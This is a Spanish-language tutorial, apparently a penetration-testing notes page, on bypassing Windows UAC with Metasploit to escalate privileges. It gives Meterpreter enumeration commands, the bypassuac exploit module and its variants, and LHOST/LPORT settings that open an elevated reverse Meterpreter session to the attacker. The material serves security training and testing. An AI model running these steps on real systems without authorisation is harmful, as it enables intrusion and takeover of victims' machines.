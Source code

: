 # Escalada de Privilegios en Windows: Bypass UAC con Metasploit

## ¿Qué es UAC?

**UAC (User Account Control)** es un mecanismo de seguridad en Windows que evita que procesos se ejecuten automáticamente con privilegios elevados, incluso si el usuario pertenece al grupo de administradores.

---

## ¿Qué permisos necesitas para Bypass UAC?

Para que el **Bypass de UAC** funcione, se requiere:

- Un usuario que pertenezca al **grupo de administradores locales**.
- Que el proceso actual **no esté elevado** (es decir, no tenga ya privilegios de administrador).

> No puedes hacer bypass UAC desde un usuario que **no tenga privilegios administrativos**.

---

## ¿Cómo saber si tienes esos permisos?

### Desde Meterpreter

1. Comprueba el usuario actual:
```bash
getuid
```

2. Enumera los privilegios actuales:
```bash
getprivs
```

3. Comprueba si está en el grupo de administradores:
```bash
shell
whoami /groups
```

Busca una entrada como:
```
BUILTIN\Administrators
```

Si aparece, el usuario es **miembro del grupo Administradores**, lo que permite intentar el bypass.

---

## Módulo de Metasploit para Bypass UAC

### Módulo base:
```bash
use exploit/windows/local/bypassuac
```

### Opciones necesarias:
```bash
set SESSION <id_de_sesion_shell>
set LHOST <tu_ip>
set LPORT <tu_puerto>
```

### Ejecutar:
```bash
run
```

Esto intentará lanzar un nuevo proceso elevado, conectando una nueva sesión Meterpreter.

---

## Variantes del módulo

- `bypassuac_eventvwr`
- `bypassuac_sdclt`
- `bypassuac_comhijack`
- `bypassuac_fodhelper`

Cada uno explota una vulnerabilidad diferente en la forma en que UAC trata ciertos binarios firmados por Microsoft.

---

## Validar que funcionó

Una vez abierta la nueva sesión:

```bash
getuid
```

Deberías ver algo como:
```
NT AUTHORITY\SYSTEM
```
o el nombre de usuario sin la restricción de UAC.

También puedes hacer:
```bash
getprivs
```
Y buscar privilegios como `SeDebugPrivilege`, `SeTakeOwnershipPrivilege`, etc.


